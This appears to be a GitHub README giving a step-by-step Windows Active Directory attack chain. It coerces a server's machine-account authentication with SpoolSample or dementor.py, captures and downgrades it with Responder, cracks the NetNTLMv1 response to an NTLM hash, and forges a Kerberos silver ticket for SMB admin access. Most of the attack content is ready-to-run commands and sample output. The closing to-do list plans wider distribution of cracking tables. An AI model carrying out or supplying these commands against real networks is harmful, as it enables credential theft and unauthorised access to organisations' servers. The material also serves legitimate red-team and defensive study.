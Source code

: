 # SpoolSample -> NetNTLMv1 -> NTLM -> Silver Ticket

This technique has been alluded to by others, but I haven't seen anything cohesive out there.  Below we'll walk through the steps of obtaining NetNTLMv1 Challenge/Response authentication, cracking those to NTLM Hashes, and using that NTLM Hash to sign a Kerberos Silver ticket.

This will work on networks where "LAN Manager authentication level" is set to 2 or less. This is a fairly common scenario in older, larger Windows deployments.  It should not work on Windows 10 / Server 2016 or newer.

## There are 3 main steps

Obtain a NetNTLMv1 Response of a machine account vis @tifkin_'s (Lee Christensen's) SpoolSample

Crack that NetNTLMv1 Response back into an NTLM Hash using @0x31337's (David Hulton's) Rainbow Tables

Generate a Silver Ticket using the newly obtained NTLM Hash using @agsolino's (Albert Solino's) ticketer.py

## Obtain a NetNTLMv1 Response

### Identify potentially vulnerable machines

Using Powershell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

    Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders &gt; servers.txt

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening

    ForEach ($server in Get-Content servers.txt) {Get-SpoolSample $server}

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

    rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN

### Start Responder with the --lm flag to force a LM downgrade

    ./Responder.py -I eth0 --lm

### Trigger an authentication

    SpoolSample.exe TARGET RESPONDERIP

or use 3xocyte's dementor.py if you're on Linux

    python dementor.py -d domain -u username -p password RESPONDERIP TARGET

Example Response:

```bash
[SMB] NTLMv1 Client   : 10.0.0.2
[SMB] NTLMv1 Username : DOMAIN\SERVER$
[SMB] NTLMv1 Hash     : SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

## Crack the NetNTLMv1 responses back into an NTLM Hash

You can use a set of Rainbow Tables to reverse the NTHASH to NTLM, or you can reverse it to its DES constituent components and crack it with hashcat.  

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables.

### Rainbow Tables

1. For Rainbow Tables, there is a service hosted at [https://crack.sh/netntlm/](https://crack.sh/netntlm/) that will recover NTLM from NetNTLMv1 for free. This is provided by David Hulton of Toorcon.  We're working on a local copy of the rainbow tables and software that does not require and FPGA for lookups.

2. For crack.sh, the format is
     NTHASH:(response), so NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972 from the example.

### Or Cracking Them with hashcat

1. @evil_mog's [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool below can break them

```bash
python ntlmv1.py --nossp SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

This will return the below output with instructions:

```bash
Hashfield Split:
['SERVER$', '', 'DOMAIN', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', '1122334455667788']

Hostname: DOMAIN
Username: SERVER$
Challenge: 1122334455667788

LM Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
NT Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

CT1: F35A3FE17DCB31F9
CT2: BE8A8004B3F310C1
CT3: 50AFA36195554972

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 50AFA36195554972 1122334455667788


To crack with hashcat create a file with the following contents:
F35A3FE17DCB31F9:1122334455667788
BE8A8004B3F310C1:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## Create a Kerberos Silver Ticket

You'll need to find a few pieces of information for this: SPN of the service you want to access, domain SID, domain user account SID and account name with local admin access, and a domain group that user is a member of if it's group-based local admin.

For the service, the most common will be cifs/ as it maps back to the HOST/ service

### Generate a Silver Ticket using Impacket's ticketer.py

```bash
./ticketer.py -nthash 09e55a127f3d4e4957c77de30000502a -domain-sid S-1-5-21-7375663-6890924511-1272660413 -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
```

### Set the generated ccache file to the appropriate environment variable

```bash
export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache
```

### Use smbclient, wmiexec,  psexec, or any other impacket tool

```bash
smbclient -k //SERVER.DOMAIN.COM/c$ -d
```

## Work left to do

* Distribute 6TB of Rainbow Tables
  * Torrent w/@0x31337's Permission?
  * DEF CON Data Duplication Village?

* Modify @0x31337's [desrtop](https://github.com/h1kari/desrtop) to not require an FPGA
  * Outside my personal wheelhouse, but I'm grinding anyway

* Identify more ways to trigger a machine account authentication remotely
  * xp_dirtree is another path
  * Anyone willing to share others they may have found?

